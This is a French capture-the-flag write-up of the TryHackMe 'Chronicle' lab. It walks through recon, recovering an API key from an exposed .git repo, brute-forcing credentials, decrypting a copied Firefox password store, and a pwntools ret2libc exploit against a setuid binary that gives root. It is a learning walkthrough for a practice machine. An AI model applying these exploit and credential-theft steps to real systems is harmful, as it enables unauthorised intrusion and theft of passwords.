







# Task 1 Challenge #

## Task 1 Challenge ## 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.36.17 chronicle.thm' >> /etc/hosts"
[sudo] Mot de passe de tim : 
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A chronicle.thm -p- 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-01 08:11 CET
Nmap scan report for chronicle.thm (10.10.36.17)
Host is up (0.074s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b2:4c:49:da:7c:9a:3a:ba:6e:59:46:c2:a9:e6:a2:35 (RSA)
|   256 7a:3e:30:70:cf:32:a4:f2:0a:cb:2b:42:08:0c:19:bd (ECDSA)
|_  256 4f:35:e1:33:96:84:5d:e5:b3:75:7d:d8:32:18:e0:a8 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
8081/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
|_http-server-header: Werkzeug/1.0.1 Python/3.6.9
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=11/1%OT=22%CT=1%CU=35027%PV=Y%DS=2%DC=T%G=Y%TM=617F965
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   33.66 ms 10.9.0.1
2   91.37 ms chronicle.thm (10.10.36.17)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 849.75 seconds

```

Nmap nous trouve 2 services qui sont : 
Le service SSH sur le port 22.   
Le service HTTP sur les port 80 et 8081.   

   

Sur la page principale sur site web sur le port 80 on trouve juste une page avec old dessus.  




Sur le site sur le port 8081 dans forgot password, on voit un clef sur NULL quand on envoie une requête on a comme réponse invalide API key, notre clef n'est pas bonne.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://chronicle.thm -w /usr/share/dirb/wordlists/common.txt -t 100 -q
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 15] 
/old                  (Status: 301) [Size: 312] [--> http://chronicle.thm/old/]
/server-status        (Status: 403) [Size: 278]                                
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://chronicle.thm/old -w /usr/share/dirb/wordlists/common.txt -t 100 -q
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.git/HEAD            (Status: 200) [Size: 23] 
/templates            (Status: 301) [Size: 322] [--> http://chronicle.thm/old/templates/]
```   

Dans le premier site web on découvre un dépot git.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget http://chronicle.thm/old/.git --recursive --continue -q
tim@kali:~/Bureau/tryhackme/write-up$ cd chronicle.thm/old/
```

On télécharge le dépôt git.    

```bash
tim@kali:~/Bureau/tryhackme/write-up/chronicle.thm/old$ git log 
commit 038a67e0ebfde470bf83f31174b6e60726c646ae (HEAD -> master)
Author: root <cirius@incognito.com>
Date:   Fri Mar 26 22:50:26 2021 +0000

    Clearing again

commit cd0375717551c8c8287a53b78b014b7d7e4da3bb
Author: root <cirius@incognito.com>
Date:   Fri Mar 26 22:49:59 2021 +0000

    Clearing

commit 33891017aa63726711585c0a2cd5e39a80cd60e6
Author: root <cirius@incognito.com>
Date:   Fri Mar 26 22:34:33 2021 +0000

    Finishing Things

commit 25fa9929ff34c45e493e172bcb64726dfe3a2780
Author: root <cirius@incognito.com>
Date:   Fri Mar 26 22:32:19 2021 +0000

    First Commit

tim@kali:~/Bureau/tryhackme/write-up/chronicle.thm/old$ git show cd0375717551c8c8287a53b78b014b7d7e4da3bb
commit cd0375717551c8c8287a53b78b014b7d7e4da3bb
Author: root <cirius@incognito.com>
Date:   Fri Mar 26 22:49:59 2021 +0000

    Clearing

diff --git a/app.py b/app.py
deleted file mode 100644
index cbf47f5..0000000
--- a/app.py
+++ /dev/null
@@ -1,39 +0,0 @@
-from flask import Flask, render_template, request
-
-app = Flask(__name__)
-
-@app.route('/')
-def index():
-    return render_template('index.html')
-
-@app.route('/login')
-def login():
-    return render_template('login.html')
-
-@app.route('/api/')
-@app.route('/api')
-def api():
-    return "API Action Missing"
-
-@app.route('/api/<uname>',methods=['POST'])
-def info(uname):
-    if(uname == ""):
-        return "Username not provided"
-    print("OK")
-    data=request.get_json(force=True)
-    print(data)
-    if(data['key']=='7454c262d0d5a3a0c0b678d6c0dbc7ef'):
```
On a une clef dans les anciens dépôt.   

  

On test la clef mais on a le nom qui est pas bon.   

  
  

Avec burp on met la bonne clef et on brute force le nom.  

 

Burp nous trouve le bon nom et on obtient le mot de passe.   
Les identifiants sont: tommy:DevMakesStuff01  

**user.txt**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ssh tommy@chronicle.thm
The authenticity of host 'chronicle.thm (10.10.60.84)' can't be established.
ECDSA key fingerprint is SHA256:t0/3cHdK4vYAwCE2QefO+zIgTg0DipgMcPQLhnjgwhA.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'chronicle.thm,10.10.60.84' (ECDSA) to the list of known hosts.
tommy@chronicle.thm's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Nov  1 09:49:42 UTC 2021

  System load:  0.0               Processes:           98
  Usage of /:   60.9% of 8.79GB   Users logged in:     0
  Memory usage: 41%               IP address for eth0: 10.10.60.84
  Swap usage:   0%


73 packages can be updated.
1 update is a security update.


*** System restart required ***
Last login: Fri Apr 16 14:05:02 2021 from 192.168.29.217
tommy@incognito:~$ id
uid=1001(tommy) gid=1001(tommyV) groups=1001(tommyV)
tommy@incognito:~$ ls
user.txt  web
tommy@incognito:~$ cat user.txt 
7ba840222ecbdb57af4d24eb222808ad
tommy@incognito:~$ 
```

On se connecte avec les identifiants et obtient un shell avec les droits de tommy.  
Dans le répertoire tommyV on lit le fichier user.txt et on a le flag.   
Le flag est : 7ba840222ecbdb57af4d24eb222808ad  

**root.txt**   

```bash
tommy@incognito:/home$ ls
carlJ  tommyV
tommy@incognito:/home$ cd carlJ/
tommy@incognito:/home/carlJ$ ls -al
total 44
drwxr-xr-x 8 carlJ carlJ 4096 Jun 11 06:22 .
drwxr-xr-x 4 root  root  4096 Apr  3  2021 ..
lrwxrwxrwx 1 root  root     9 Apr  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 carlJ carlJ  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 carlJ carlJ 3772 Mar 26  2021 .bashrc
drwx------ 4 carlJ carlJ 4096 Apr  3  2021 .cache
drwxr-x--- 3 carlJ carlJ 4096 Apr  3  2021 .config
drwx------ 3 carlJ carlJ 4096 Apr  3  2021 .gnupg
drwxrwxr-x 3 carlJ carlJ 4096 Apr 16  2021 .local
drwx------ 2 carlJ carlJ 4096 Apr 16  2021 mailing
drwxr-xr-x 5 carlJ carlJ 4096 Mar 28  2021 .mozilla
-rw-r--r-- 1 carlJ carlJ  808 Mar 26  2021 .profile
```

On trouve un répertoire .mozilla.  

```bash
tommy@incognito:/home/carlJ$ cd .mozilla/firefox/
tommy@incognito:/home/carlJ/.mozilla/firefox$ ls 
 0ryxwn4c.default-release   45ir4czt.default  'Crash Reports'   installs.ini  'Pending Pings'   profiles.ini
tommy@incognito:/home/carlJ/.mozilla/firefox$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

---

tim@kali:~/Bureau/tryhackme/write-up$ wget -r http://chronicle.thm:8000/0ryxwn4c.default-release -q

tim@kali:~/Bureau/tryhackme/write-up$ cd chronicle.thm\:8000/
tim@kali:~/Bureau/tryhackme/write-up/chronicle.thm:8000$ 

tim@kali:~/Bureau/tryhackme/write-up/chronicle.thm:8000$ wget https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py -nv
2021-11-01 11:49:07 URL:https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py [37599/37599] -> "firefox_decrypt.py" [1]

tim@kali:~/Bureau/tryhackme/write-up/chronicle.thm:8000$ for word in $(</usr/share/wordlists/rockyou.txt);do echo $word | python firefox_decrypt.py ./0ryxwn4c.default-release/ ;done > resultat.txt 2>/dev/null 

tim@kali:~/Bureau/tryhackme/write-up/chronicle.thm:8000$ cat resultat.txt 

Website:   https://incognito.com
Username: 'dev'
Password: 'Pas$w0RD59247'
```

On télécharger les informations de firefox.  
On télécharger firefox_decrypt.py pour retrouver les mots de passes.   
Je ne connais pas le mot de passe master donc je le brute force.    
On arrive à trouver les bon identifiants.  

```bash
tommy@incognito:/home/carlJ$ su carlJ 
Password: 
carlJ@incognito:~$ 
```

Avec le mot de passe : Pas$w0RD59247 on se connecte sur le compte de carlJ.   

```bash
carlJ@incognito:~$ ls
mailing
carlJ@incognito:~$ cd mailing/
carlJ@incognito:~/mailing$ ls -al
total 20
drwx------ 2 carlJ carlJ 4096 Apr 16  2021 .
drwxr-xr-x 8 carlJ carlJ 4096 Jun 11 06:22 ..
-rwsrwxr-x 1 root  root  8544 Apr  3  2021 smail
```

Dans mailing on a un fichier smail qui setuid.   

```bash
carlJ@incognito:~/mailing$ ./smail 
What do you wanna do
1-Send Message
2-Change your Signature
1
What message you want to send(limit 80)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
Sent!

What do you wanna do
1-Send Message
2-Change your Signature
2 
Write your signature...
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
Changed
Segmentation fault (core dumped)
```

On voit que le programme crash sur la signature nous pouvons peut être exploiter un ret2lib pour avoir une shell.   

```bash
carlJ@incognito:~/mailing$ ldd smail 
	linux-vdso.so.1 (0x00007ffff7ffa000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff79e2000)
	/lib64/ld-linux-x86-64.so.2 (0x00007ffff7dd3000)
```

L'adresse de base de libc est : 0x00007ffff79e2000

```bash
carlJ@incognito:~/mailing$ readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
   232: 0000000000159cd0    99 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.2.5
   607: 000000000004f550    45 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1403: 000000000004f550    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5
```

On récupère l'adresse pour appeller system dans libc.so.6.    
L'adresse est : 0x000000000004f550  

```bash
carlJ@incognito:~/mailing$ strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh
 1b3e1a /bin/sh
```

On recherche ou est /bin/sh, il est à l'offsetr 0x1b3e1a  

```bash
carlJ@incognito:~/mailing$ ROPgadget --binary smail | grep rdi
0x00000000004007f3 : pop rdi ; ret
```

On récupère le pointeur de retour.  

```bash
carlJ@incognito:~/mailing$ objdump -d smail | grep ret
  400556:	c3                   	retq   
  400600:	f3 c3                	repz retq 
  400639:	c3                   	retq   
  400679:	c3                   	retq   
  40069a:	c3                   	retq   
  4006a0:	f3 c3                	repz retq 
  4006de:	c3                   	retq   
  400782:	c3                   	retq   
  4007f4:	c3                   	retq   
  400800:	f3 c3                	repz retq 
  40080c:	c3                   	retq   
```

On liste toutes les adresses de retour on prende la première qui est 0x400556.   

```python 
carlJ@incognito:~/mailing$ cat exploit.py 
from pwn import *

p = process('./smail')

base = 0x7ffff79e2000
sys = base + 0x4f550
binsh = base + 0x1b3e1a

rop_rdi = 0x4007f3

payload = b'A' * 72
payload += p64(0x400556)
payload += p64(rop_rdi)
payload += p64(binsh)
payload += p64(sys)
payload += p64(0x0)


p.clean()
p.sendline("2")
p.sendline(payload)
p.interactive()
```

On écrit l'exploit.   

```bash
carlJ@incognito:~/mailing$ echo 'never' >  /home/carlJ/.cache/.pwntools-cache-3.6/update 
carlJ@incognito:~/mailing$ python3 exploit.py 
[+] Starting local process './smail': pid 32707
[*] Switching to interactive mode
Write your signature...
Changed
$ id
uid=0(root) gid=1002(carlJ) groups=1002(carlJ)
$ cat /root/root.txt
f21979de76c0302154cc001884143ab2
```

On configure pwntools pour pas qui cherche à faire des mises à jours.   
On lance l'exploit on a un shell root.   
On lit le flag dans root.txt, dans le répertoire /root.   
Le flag est : f21979de76c0302154cc001884143ab2    

